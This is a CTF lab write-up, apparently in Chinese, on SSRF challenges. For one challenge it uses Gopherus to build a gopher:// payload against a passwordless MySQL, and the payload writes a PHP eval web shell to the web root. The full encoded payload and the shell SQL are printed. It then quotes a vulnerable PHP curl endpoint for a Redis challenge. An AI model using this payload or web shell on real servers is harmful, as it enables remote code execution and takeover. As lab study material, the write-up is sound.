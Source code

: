 - ?后默认为get参数

## 359

> hint：打无密码的mysql
>
> 一个登录框login后跳转到check.php
> ![](https://i.loli.net/2021/09/03/5KC9dOz2mUcF1qa.png)
>
> 工具：[tarunkant/Gopherus: This tool generates gopher link for exploiting SSRF and gaining RCE in various servers (github.com)](https://github.com/tarunkant/Gopherus)

```
python2 gopherus.py --exploit mysql
```

```
用户名：root
查询语句写马：select '<?php eval($_POST[a]); ?>' INTO OUTFILE '/var/www/html/a.php';
```

![](https://i.loli.net/2021/09/03/g2cKnNP9ShJMOro.png)

得到：

```
gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%47%00%00%00%03%73%65%6c%65%63%74%20%27%3c%3f%70%68%70%20%65%76%61%6c%28%24%5f%50%4f%53%54%5b%61%5d%29%3b%20%3f%3e%27%20%49%4e%54%4f%20%4f%55%54%46%49%4c%45%20%27%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%61%2e%70%68%70%27%3b%01%00%00%00%01
```

因为浏览器本身会对url进行一次解码，解码后的url可能含特殊字符，所以对下划线_后的部分再编码一次，然后再到check.php用returl=xxx传入即可getshell

![](https://i.loli.net/2021/09/03/oHzVgRShUwYQqLj.png)

## 360

> 打redis
>
> ```php
> <?php
> error_reporting(0);
> highlight_file(__FILE__);
> $url=$_POST['url'];
> $ch=curl_init($url);
> curl_setopt($ch, CURLOPT_HEADER, 0);
> curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
> $result=curl_exec($ch);
> curl_close($ch);
> echo ($result);
> ?>
> ```
>
> 
